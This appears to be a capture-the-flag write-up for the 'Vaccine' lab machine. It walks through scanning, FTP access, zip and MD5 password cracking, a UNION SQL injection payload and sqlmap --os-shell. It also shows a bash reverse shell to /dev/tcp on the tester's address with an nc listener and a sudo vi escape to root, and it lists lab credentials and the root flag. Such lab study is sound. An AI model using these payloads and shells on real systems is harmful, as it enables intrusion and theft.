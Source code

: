 # Vaccine

## Ifconfig

<pre>
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
</pre>

## Nmap

> sudo nmap -sC -sV -A 10.10.10.46

<pre>
Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Nikto

> nikto -h 10.10.10.46 | tee [nikto.log](./nikto.log)

## Install ftp

> sudo apt install ftp

> ftp 10.10.10.46

<pre>
username: ftpuser
password: mc@F1l3ZilL4
</pre>

and then get the [backup.zip](./ftp/backup.zip)

## Use zip hash to crack

> zip2john [backup.zip](./ftp/backup.zip) > [backup.hash](./ftp/backup.hash)

> john [backup.hash](./ftp/backup.hash) --show 

<pre>
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
1 password hash cracked, 0 left
</pre>

- unzip with password 741852963

> unzip [backup.zip](./ftp/backup.zip) 


## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Test sql injection

- At [dashboard.php](./dashboard.php)

> http://10.10.10.46/dashboard.php?search='UNION SELECT NULL, NULL, NULL, NULL, VERSION() --

VERSION() can replace from second to fourth parameters

*first only accept integer (index) cannot be replaced*

```
PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
```

## Sqlmap hack the os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=**"what you get on session"**" --os-shell

- Check self name

> whoami

<pre>
postgres
</pre>

- Check current path

> pwd

<pre>
/var/lib/postgresql/11/main
</pre>

- Remote command to local

*Source*

> bash -c 'bash -i &> /dev/tcp/10.10.14.69/*port* 0>&1'

*Destination*

> nc -lvnp *port*

- Get ID

> id

<pre>
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
</pre>

- Find postgresql account in [/var/www/html/dashboard.php](./dashboard.php)

<pre>
username: postgres
password: P@s5w0rd!
</pre>

## Sudo lists all privilege current user can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- Postgres can use *vi* of */bin/vi* (need sudo)

> which vi

<pre>
/usr/bin/vi
</pre>

- Use *sudo vi* to get root

> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

- Input commend in *sudo vi* to generate a root shell

> :!/bin/bash

or

> :!/bin/sh

or

> shell

## Finally

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>